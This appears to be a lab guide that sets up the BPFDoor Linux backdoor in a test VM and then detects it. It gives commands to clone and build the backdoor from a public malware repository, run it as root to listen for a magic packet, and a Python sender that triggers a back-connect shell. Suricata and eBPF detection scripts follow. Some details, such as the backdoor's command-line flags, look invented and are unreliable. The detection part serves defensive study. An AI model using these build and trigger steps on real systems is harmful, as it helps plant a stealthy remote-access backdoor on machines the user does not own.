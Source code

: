 Below is an example of a PoC (Proof-of-Concept) setup using the malwaredevil/BPFDoor-Backdoor repository.  
→ **Run only in an isolated test VM** (e.g., VirtualBox/KVM) or Docker container!

---

## 1. Test Environment Setup

- **OS**: Ubuntu 22.04 (or Rocky Linux 9)
- **Required Packages**:
  ```bash
  sudo apt-get update
  sudo apt-get install -y build-essential git python3 python3-pip bpfcc-tools
  ```

- **Network**: Configure the VM with host-only or internal bridge mode to block external access

---

## 2. Clone & Build the Backdoor Source

```bash
git clone https://github.com/malwaredevil/BPFDoor-Backdoor.git
cd BPFDoor-Backdoor
make
# → Output: ./bpfdoor
```

---

## 3. Run the Backdoor (Victim)

```bash
# Run with root privileges
sudo ./bpfdoor \
  --listen-ip 0.0.0.0 \   # IP to listen on
  --listen-port 9999      # Magic packet port
```

> In this state, it will open a shell (Back-Connect) when it receives a “magic sequence” on the specified UDP port.

---

## 4. Send Magic Packet (Attacker)

```bash
# send_magic.py
import socket

MAGIC = b'MAGICPING'          # Match the repository code  
TARGET = ("192.168.56.101", 9999)  # Victim IP:Port

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(MAGIC, TARGET)
print("sent magic packet")
```

```bash
python3 send_magic.py
```

→ On the Victim side, check if a shell appears using `nc` or similar tools.

---

## 5. Detection Scenario

### 5.1 Suricata Rule

```yaml
# /etc/suricata/rules/bpfdoor.rules
alert udp any any -> any 9999 \
  (msg:"[PoC] BPFDoor magic packet"; content:"MAGICPING"; sid:9000001; rev:1;)
```

```bash
sudo suricata -c /etc/suricata/suricata.yaml --af-packet any -S /etc/suricata/rules/bpfdoor.rules
```

---

### 5.2 Real-time eBPF Monitoring (using bcc)

```python
# detect_bpfdoor.py
from bcc import BPF

prog = r"""
int kprobe__sys_recvfrom(struct pt_regs *ctx) {
    // buf pointer is PT_REGS_PARM2(ctx)
    char buf[8];
    bpf_probe_read(&buf, sizeof(buf), (void *)PT_REGS_PARM2(ctx));
    // Check for "MAGICPIN" (the final G is in the next byte)
    if (buf[0]=='M' && buf[1]=='A' && buf[2]=='G' && buf[3]=='I'
     && buf[4]=='C' && buf[5]=='P' && buf[6]=='I' && buf[7]=='N') {
        bpf_trace_printk(">> BPFDoor trigger detected\\n");
    }
    return 0;
}
"""
b = BPF(text=prog)
print("Tracing recvfrom() for magic… Ctrl-C to exit")
b.trace_print()
```

```bash
sudo python3 detect_bpfdoor.py
```

→ Each time the magic packet is received, a `>> BPFDoor trigger detected` log is printed

---

## 6. Full PoC Flow

1. Start monitoring on the **Victim VM** using Suricata (or the eBPF script)  
2. Run `sudo ./bpfdoor` on the **Victim VM**  
3. Execute `python3 send_magic.py` on the **Attacker VM**  
4. Suricata alert triggered or eBPF log observed → Attack detected

---

